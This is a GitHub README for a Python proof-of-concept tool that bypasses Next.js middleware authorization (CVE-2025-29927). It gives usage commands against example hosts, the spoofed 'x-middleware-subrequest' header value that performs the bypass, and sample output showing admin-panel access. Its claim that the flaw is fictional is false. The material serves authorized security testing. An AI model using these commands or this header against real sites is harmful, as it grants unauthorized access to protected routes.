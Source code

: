 # PoC for Next.js Middleware Bypass (CVE-2025-29927)

[![Python Version](https://img.shields.io/badge/python-3.7%2B-blue.svg)](https://www.python.org/)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](LICENSE)
[![Status](https://img.shields.io/badge/status-active-brightgreen.svg)]()

This is a **proof-of-concept** for a **fictional** Next.js middleware bypass vulnerability (CVE-2025-29927). Use **only** for educational and authorized security research.

---

## 🚀 Features

| Feature             | Description                                                       |
| ------------------- | ----------------------------------------------------------------- |
| ✨ Color & Verbose   | Color-coded output; `-v` for detailed debug logs.                 |
| 📦 OOP Structure    | Class-based design for clarity and maintainability.               |
| 🌐 Proxy Support    | Route traffic through HTTP(S) proxies via `--proxy`.              |
| 🍪 Session Handling | Persistent `requests.Session` for cookies & connection reuse.     |
| 🚦 Redirect Control | No-follow-redirect by default; clearly detects pass vs. fail.     |
| 🛠 Custom Headers   | Override `User-Agent`, `x-middleware-subrequest`, or add headers. |

---

## ⚡ Installation

```bash
# Clone repository
git clone https://github.com/your-username/nextjs-middleware-poc.git
cd nextjs-middleware-poc

# (Optional) Create virtual environment
python3 -m venv .venv
source .venv/bin/activate

# Install dependencies
pip install -r requirements.txt
```

> **Requires** Python 3.7+

---

## 🎯 Usage

```bash
python poc.py [options] <host>[:port]
```

| Option                      | Description                                                               |
| --------------------------- | ------------------------------------------------------------------------- |
| `-p, --path PATH`           | Protected route path (default: `/admin`)                                  |
| `-s, --scheme {http,https}` | Protocol (default: `http`)                                                |
| `--header HEADER`           | `x-middleware-subrequest` header value (default: `middleware:middleware`) |
| `-ua, --user-agent AGENT`   | Custom `User-Agent` (default: `Mozilla/5.0`)                              |
| `--proxy PROXY`             | HTTP(S) proxy URL (e.g., `http://127.0.0.1:8080`)                         |
| `-v, --verbose`             | Enable debug output                                                       |
| `-h, --help`                | Show this help message                                                    |

---

## 🔍 Examples

### 1. Basic Test

```bash
python poc.py localhost:3000
```

### 2. HTTPS & Custom Path

```bash
python poc.py example.com -s https -p /dashboard
```

### 3. Proxy & Verbose

```bash
python poc.py internal-app:8080 --proxy http://127.0.0.1:8080 -v
```

---

## ✅ Expected Output

**Success**

```
[*] Target URL: http://localhost:3000/admin
[+] SUCCESS: Middleware bypassed — access granted!
--- Response Snippet ---
<!DOCTYPE html><html>…<title>Admin Panel</title>…
```

**Failure**

```
[*] Target URL: http://localhost:3000/admin
[-] FAIL: Access denied by middleware (302 Redirect)
```

---

## 🤝 Contributing

1. Fork this repository
2. Create a branch: `git checkout -b feature/my-feature`
3. Commit changes
4. Run tests & lint: `pytest && ruff .`
5. Open a Pull Request

---
